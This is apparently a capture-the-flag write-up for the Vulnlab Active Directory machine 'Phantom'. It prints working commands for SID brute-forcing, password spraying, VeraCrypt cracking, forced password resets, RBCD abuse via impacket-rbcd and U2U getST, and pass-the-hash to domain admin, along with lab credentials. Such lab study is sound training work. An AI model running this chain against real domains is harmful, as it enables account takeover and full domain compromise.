| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Phantom      | Medium     | 19/01/2025   | 19/01/2025     |
*Vulnlab.com* 

---

**Learning Points:**  
- Using **PyPyKatz** to convert a password to NT format  
- Decrypting `.hc` **VeraCrypt** encrypted drives using Hashcat  
- Performing Resource-Based Delegation (RBCD) with a domain user for privilege escalation (PrivEsc)  

---

Attack Path : 
- Use **CrackMapExec** to enumerate SMB shares as an anonymous session and find a `.eml` file containing a Base64-encoded PDF.  
- Decode the PDF and extract a password.  
- Enumerate usernames by performing a **SID brute-force** attack and save the usernames.  
- Perform a **password spray** attack and identify valid credentials.  
- Using the valid credentials, enumerate SMB shares again and locate a share containing a **VeraCrypt** encrypted backup drive.  
- Save the encrypted drive and crack it using a custom-generated wordlist created with **Crunch** and **Hashcat**.  
- Explore the decrypted drive to discover another password.  
- Perform another **password spray** attack to find additional valid credentials.  
- Use **Evil-WinRM** to log in and retrieve the user flag.  
- Use **BloodHound-Python** to map privileges and identify that the user has `ForceChangePassword` permission for users in the **ICT Security Group**.  
- Change the password of a user in the group using **Net RPC**.  
- Edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the user.  
- Retrieve a TGT (Ticket Granting Ticket) with **Overpass-the-Hash**, extract the TGT session key, and replace it with the domain user’s NT hash.  
- Using the modified user account, obtain a service ticket to itself on behalf of the administrator, then use **S4U2proxy** to get a service ticket for the target the user can delegate to.  
- Export the ticket and use **Impacket’s secretsdump** to dump the administrator's hash.  
- Perform a **Pass-the-Hash** attack with the obtained hash to gain administrator privileges and retrieve the root flag.  

---

*Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sun Jan 19 15:53:37 2025 as: /usr/lib/nmap/nmap -sC -sV -oA default 10.10.105.203
Nmap scan report for 10.10.105.203
Host is up (0.23s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-19 10:23:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: PHANTOM
|   NetBIOS_Domain_Name: PHANTOM
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: phantom.vl
|   DNS_Computer_Name: DC.phantom.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-19T10:24:10+00:00
| ssl-cert: Subject: commonName=DC.phantom.vl
| Not valid before: 2025-01-18T10:08:48
|_Not valid after:  2025-07-20T10:08:48
|_ssl-date: 2025-01-19T10:24:49+00:00; -1s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-19T10:24:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 19 15:54:57 2025 -- 1 IP address (1 host up) scanned in 80.08 seconds
```

We enumerated the shares as a null session using **CrackMapExec**.



In the public share, we found a `.eml` file.



We downloaded the file to Eagle and discovered that it was a Base64-encoded PDF file.



We copied the Base64-encoded part to a file, decoded it, and saved it to a new file.

```
base64 -d welcome.b64 > welcome_template.pdf
```

We found a password in the PDF file.



Since we didn't have any usernames, we performed a **SID brute-force** attack and successfully obtained some usernames.

```
impacket-lookupsid anonymous@phantom.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}'
```



We used **CrackMapExec** and performed a password spray, successfully identifying a user with valid credentials.



```
ibryant:Ph4nt0m@5t4rt!
```

We were able to see that this user had read access to a share named **Departments Share**.



We found some files in the **IT** folder, as well as a **Backup** file.



The `.hc` extension indicated that it was a file from **VeraCrypt** software, which encrypts data. This password could be cracked with **Hashcat**, but it wasn't found in the **rockyou.txt** wordlist. So, we generated a custom wordlist using the company name, year, and a special character, as mentioned in the hint from the **VulnLab Wiki**.



We generated a wordlist using **Crunch**.



We were able to crack the file using the generated custom wordlist with **Hashcat**.



```
IT_BACKUP_201123.hc:Phantom2023!
```

Using the password, we mounted the drive to **EAGLE-Flare** and started enumerating. 



While enumerating the files, we found a credential for the user **'lstanley'** inside a config file.



```
lstanley:gB6XTcqVP5MlP7Rc
```

We used **CrackMapExec** to verify the credentials, but they didn't work for that user. So, we performed a **password spray** and identified that the password worked for the user **`svc_sspr`**.



```
svc_sspr:gB6XTcqVP5MlP7Rc
```

We were able to use **Evil-WinRM** to log in to the machine and retrieve the user flag using the credentials.




### Privilege Escalation

##### Bloodhound Enumeration

We used **BloodHound-Python** to obtain the AD map and inject it into **BloodHound**.



Analyzing the **BloodHound** data, we noted that our user had the ability to change the passwords of three users.



These users belong to the **`ICT Security`** group, which has **`AddAllowedToAct`** permission on the domain controller. Through this, we could edit the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property to add a machine account, enabling us to perform **Resource-Based Constrained Delegation (RBCD)**. With **`net rpc`**, the password could be changed.



```
net rpc password WSILVA -U phantom.vl/svc_sspr -S dc.phantom.vl
```



We also used **CrackMapExec** to verify whether it worked.



We edited the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property.

```
impacket-rbcd -delegate-to 'DC$' -delegate-from 'WSILVA' -dc-ip 10.10.105.203 -action 'write' 'phantom.vl'/'WSILVA':'Phantom2023!'
```



#### Performing resource based delegation with a domain user

To abuse **RBCD**, we needed to know the status of the machine quota in order to create a machine account and then add it to the DC’s property. However, the quota was set to 0.



However, we could still perform **RBCD** through a normal domain user. For this, we needed a modified [branch of **getST**](https://github.com/ShutdownRepo/impacket/tree/getST) with the [U2U Kerberos extension](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd).



First, we retrieved the TGT using **Overpass-the-Hash**, extracted the TGT session key, and replaced it with the domain user’s **NTHash**.

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-getTGT -hashes :$(pypykatz crypto nt 'Phantom2023!') phantom.vl/WSILVA                                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in WSILVA.ccache
```

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-describeTicket WSILVA.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : c645fe88ba7d20bfc73f18791155b28e
```

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-changepasswd -newhashes :c645fe88ba7d20bfc73f18791155b28e 'phantom.vl'/'WSILVA':'Phantom2023!'@dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\WSILVA
[*] Connecting to DCE/RPC as phantom.vl\WSILVA
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

With **S4U2Self** and **U2U**, using **WSILVA**, we could obtain a service ticket to itself on behalf of the administrator. We then proceeded to **S4U2Proxy** to obtain a service ticket for the target that the user could delegate to.

```
KRB5CCNAME=./WSILVA.ccache impacket-getST -u2u -impersonate "Administrator" -spn "host/dc.phantom.vl" -k -no-pass phantom.vl/WSILVA
```



Using the hash, we performed a **Pass-the-Hash** attack with **Evil-WinRM** and obtained the root flag.



---